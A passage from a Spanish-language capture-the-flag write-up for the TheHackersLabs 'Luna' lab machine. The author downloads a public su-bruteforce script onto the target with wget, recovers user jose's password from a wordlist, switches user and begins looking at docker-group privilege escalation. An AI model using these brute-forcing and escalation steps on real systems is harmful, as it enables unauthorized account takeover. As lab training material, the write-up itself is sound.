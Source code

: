 Así que investigando un poco en internet, encontré un script que realiza la fuerza bruta desde la máquina víctima, usando el comando **su**:
* <a href="https://github.com/carlospolop/su-bruteforce" target="_blank">Repositorio de carlospolop: su-bruteforce</a>

En este punto, podemos descargar el script en la máquina víctima si la configuramos para que tenga conexión a internet o, si no, tendríamos que descargar el script en nuestra máquina y luego pasarlo a la máquina víctima con un servidor web de **Python** y con **wget**.

En mi caso, la máquina víctima tiene conexión a internet, por lo que puedo descargar directamente el script ahí:
```bash
juan@TheHackersLabs-Luna:~$ wget https://raw.githubusercontent.com/carlospolop/su-bruteforce/refs/heads/master/suBF.sh
juan@TheHackersLabs-Luna:~$ ls
password.txt  suBF.sh  user.txt
juan@TheHackersLabs-Luna:~$ chmod +x suBF.sh
```
Tan solo tenemos que darle el usuario a probar y el wordlist de contraseñas.

Probando con todos los usuarios, logramos encontrar la contraseña del **usuario jose**:
```bash
juan@TheHackersLabs-Luna:~$ ./suBF.sh -u jose -w password.txt
  [+] Bruteforcing jose...
  You can login as jose using password: W1nter$2024
  Wordlist exhausted
```

Comprobeḿoslo:
```bash
juan@TheHackersLabs-Luna:~$ su jose
Password: 
jose@TheHackersLabs-Luna:/home/juan$ whoami
jose
```
Ya somos el **usuario jose**.

Pero al movernos a su directorio, no encontraremos nada.
```bash
jose@TheHackersLabs-Luna:/home/juan$ cd ../jose
jose@TheHackersLabs-Luna:~$ ls -la
total 8
drwxr-x--- 2 jose jose 4096 ago 13  2024 .
drwxr-xr-x 6 root root 4096 ago 14  2024 ..
lrwxrwxrwx 1 jose jose    9 ago 13  2024 .bash_history -> /dev/null
```

<br>

<h2 id="Docker">Escalando Privilegios Abusando de Grupo Docker</h2>

Este usuario no tiene privilegios en la máquina:
```bash
jose@TheHackersLabs-Luna:~$ sudo -l
[sudo] password for jose: 
Sorry, user jose may not run sudo on TheHackersLabs-Luna.
```
